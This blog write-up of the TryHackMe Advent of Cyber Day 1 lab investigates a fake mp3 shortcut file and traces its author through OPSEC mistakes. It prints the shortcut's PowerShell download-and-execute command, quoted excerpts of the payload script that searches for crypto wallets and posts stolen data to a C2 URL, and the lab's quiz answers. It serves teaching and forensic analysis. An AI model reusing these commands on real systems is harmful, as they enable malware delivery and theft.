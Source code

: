 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2024-12-01-THM-Advent-Day-1
tags:
- Basic
- MerryChristmas
- THM
title: THM - Advent of Cyber - Day 1
---
```

This CTF is done mainly with following the instructions in the task. 

![alt text](image-1_1.png)

## Objectives :


    Learn how to investigate malicious link files.
    Learn about OPSEC and OPSEC mistakes.
    Understand how to track and attribute digital identities in cyber investigations.

Let's begin by starting the machine and scanning for the open ports:

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-23 07:14 GMT
Nmap scan report for tryhackme.machine
Host is up (0.00060s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds

```

Looks like we have ssh and 2 HTTP ports ports open. Following the instructions let's begin to investigate the website of the host.

![alt text](image.png)

We landed this kind of page which is a YouTube converter. Let's try to convert a random video with it.

![alt text](image-1.png)

We ended up getting an archive called ````download.zip```` These files might contain some information.

````
root@tryhackmeuser:~/Desktop# file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 
07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
````
````
root@tryhackmeuser:~/Desktop# file song.mp3
song.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
````

File recognized ````song.mp3```` to be a genuine mp3-file but ```somg.mp3``` is a Windows shortcut file which is a ``` .lnk ``` file.

Now let´s use some other forensics tools like ExifTool to extract more information about it.

```` 
root@tryhackmeuser:~/Desktop# exiftool somg.mp3
ExifTool Version Number         : 11.88
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.1 kB
File Modification Date/Time     : 2024:10:30 14:32:52+00:00
File Access Date/Time           : 2024:12:23 07:27:32+00:00
File Inode Change Date/Time     : 2024:12:23 07:26:18+00:00
File Permissions                : rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 08:14:14+01:00
Access Date                     : 2018:09:15 08:14:14+01:00
Modify Date                     : 2018:09:15 08:14:14+01:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
````
It contains an PowerShell command which downloads a script from github repo and the author of the script is visible. Bad OPSEC. Let's download the script and see what it contains.

````
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}
````

Downloaded script seems to be having some malicious code for searching cryptocurrency wallets in Windows environment. As mentioned earlier the author of script is visible, we can now investigate further via visiting this repository.

![alt](image-3.png)

Visiting the repository, there are few issues which are containing this string ````"Created by the one and only M.M."````

![alt text](image-4.png)

Especially this comment draws attention the author is saying that PowerShell is the language mainly preferred. Now looking at the profile i landed on the configuration page of this account and it contained information example full declaration of this abbreviation. ````M.M```` is called ````Mayor Malware````

So the lesson here was that this is a classic case of a bad OPSEC = Operational Security. The whole downloading process was done via the link to this author's own github repository which is not a good way to hide yourself. Also the script contained strings and sentences which are also used in the public repository. 

By using tool called Strings we can extract some information of the ````song.mp3```` file. This contained the author of the song.

````
TAGMount HackIt
Tyler Ramsbey
2024
````


In the script you can see one of the answers, which C2 server this script will send the acquired data.

````
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
````




<h3>Answer the questions below</h3>

Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 

````Tyler Ramsbey````

The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

````http://papash3ll.thm/data````

Who is M.M? Maybe his Github profile page would provide clues?

````Mayor Malware````

What is the number of commits on the GitHub repo where the issue was raised?

````1````












